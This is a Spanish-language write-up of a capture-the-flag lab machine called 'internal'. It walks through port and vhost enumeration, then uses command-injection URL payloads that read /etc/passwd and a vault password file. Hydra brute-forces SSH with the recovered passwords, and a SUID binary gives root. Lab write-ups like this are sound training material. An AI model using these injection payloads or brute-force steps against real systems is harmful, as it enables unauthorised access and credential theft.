## DESPLEGAMOS LA MÁQUINA VULNERABLE

Descargamos la máquina vulnerable y descomprimimos con `unzip internal.zip` eso nos descomprime dos archivos para montar un docker con la máquina

usamos el comando `sudo bash auto_deploy.sh internal.tar`



## FASE ESCANEO E INTRUSIÓN

Realizamos un scaneo de puertos, para ver cuales tiene abiertos, que servicios corre por ellos y si son vulnerables:
```bash
sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```







Vemos dos puertos abiertos
-22 con SSh versión no vulnerable
-80 http

Dado que no tenemos user ni password para conectarnos por SSH nos vamos a centrar en el puerto 80, antes de ir a la página web
vamos a lanzar un whatweb para ver que reporta:

```bash
whatweb http://172.17.0.2 | tee whatweb
```





Vemos un virtual hosting ` http://internal.dl/` vamos a añadir el dominio, abrimos con nano el `/etc/hosts` y lo añadimos

```bash
sudo nano /etc/hosts
```


Una vez realizado, antes de entrar en la web vamos a buscar subdominios:

```bash
 gobuster vhost -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  -u 'http://internal.dl' --append-domain --exclude-status 303
```




Descubrimos un subdominio que añadimos al `/etc/hosts` quedando así:





Vamos a visitar el subdominio y ver que pasa.





Vemos un `directory inspector` que nos hace una especie de ls -la de rutas, vamos a hacer una captura con burpsuite para ver como se comporta:


lo capturamos y lo mandamos al repeater





Después de probar varias inyecciones hay un waff corriendo por detrás o una black list, logro listar sin más el contenido de /opt y veo algo interesante:







El problema es listar el contenido y pruebo comandos que puedan listar archivos para saltar las restricciones y `strings` parece que funciona, así pues listo el `passwd` y un archivo que ví el `/opt` llamado `.vault_pass.txt`

<pre> ```
/?action=backup&dir=/home%26strings+/etc/passwd

/?action=backup&dir=/home%26strings+/opt/.vault_pass.txt
``` </pre>







poniendo legible todo queda así:


```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
vault:x:1001:1001:,,,:/home/vault:/bin/bash
```

```bash
X#9mK$vL2@pQ
nR7!wZ3&eT5*
Hy6@jP2#mX8$
qB4!nW9&kL3@
Vz8#cR5$xJ2!
mT3@bY7!pN6&
Kw5$hM2#fQ9@
eL8!vX4&nB6*
Rj2@cT7#wP5$
uN9&mK3!xZ4@
Fb6#yH8$qW2!
sG4@tL5&rJ9*
Dp7!kM3#bX6@
aC2$vN8!wQ5&
Xt9@eR4#hL7$
oW3&jB6!mT2#
Yk8$pZ5@cN4!
iH2#xQ9&fR7*
Mn5!bL3$vW8@
Gq4@tX7#eK2&
```

Tenemos un user potencial y una lista de password, guardamos los password en una lista y la llamamos `password.txt` y lanzamos un ataque con hydra:
```bash
hydra -l vault  -P password.txt  -t 16 -V -f -I ssh://172.17.0.2
```





Ya tenemos un user y un pass para conectarnos por SSH
```bash
vault:Yk8$pZ5@cN4!
```

## FASE ESCALADA DE PRIVILEGIOS

Nos conectamos por SSH:

```bash
ssh vault@172.17.0.2
```


miramos si estamos en algún grupo con privilegios con `id`, comprovamos si tenemos privilegios sudo con `sudo -l` y nada, pero al listar permisos SUID:



Vemos un binario SUID, comprovamos con `ls -la` que realmente tenemos esos privilegios y ejecutamos el binario para ver que hace y... nos hace root




